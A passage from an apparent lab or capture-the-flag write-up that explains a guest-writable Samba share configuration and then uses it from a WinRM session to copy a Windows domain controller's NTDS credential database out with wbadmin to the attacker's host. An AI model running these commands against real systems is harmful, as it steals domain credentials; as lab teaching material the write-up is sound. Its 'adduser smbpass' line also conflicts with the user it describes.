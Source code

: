 Here's the breakdown:

1. `[global]` section:
   * `map to guest = Bad User`: This directive specifies how Samba should handle connections from clients that try to authenticate as a guest but fail. "Bad User" means that if a user tries to log in as a guest and fails, they'll be treated as the guest user.
   * `server role = standalone server`: This indicates that the Samba server is operating as a standalone server, meaning it is not part of an Active Directory domain or a member of another Samba domain.
   * `usershare allow guests = yes`: Allows guest users to create and use user-defined shares.
   * `idmap config * : backend = tdb`: Specifies the backend storage for the ID mapping. In this case, it's using the TDB (Trivial Database) backend for mapping user and group IDs.
   * `interfaces = tun0`: This restricts Samba to only listen on the network interface specified (`tun0` in this case).
   * `smb ports = 445`: Specifies the TCP ports that Samba will use for incoming SMB connections.
2. `[smb]` section:
   * `comment = Samba`: A comment describing the share.
   * `path = /tmp/`: Specifies the directory that will be shared.
   * `guest ok = yes`: Allows guest users to access the share without authentication.
   * `read only = no`: Allows both reading from and writing to the shared directory.
   * `browsable = yes`: Indicates that the share will be visible to browsing clients.
   * `force user = smbuser`: Forces all users accessing this share to be mapped to the user specified (`smbuser` in this case).

Then we add a user called smbuser and define it's password:

```
adduser smbpass
smbpasswd -a smbuser
```

and on our winrm sesh, we mount the share:

```
net use k: \\10.10.14.141\smb /user:smbuser smbpass
```

Now our goal will be to backup the NTDS folder using Wbadmin:

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#a-d-attack" %}

```
echo "Y" | wbadmin start backup -backuptarget:\\10.10.14.141\smb -include:c:\windows\ntds
```
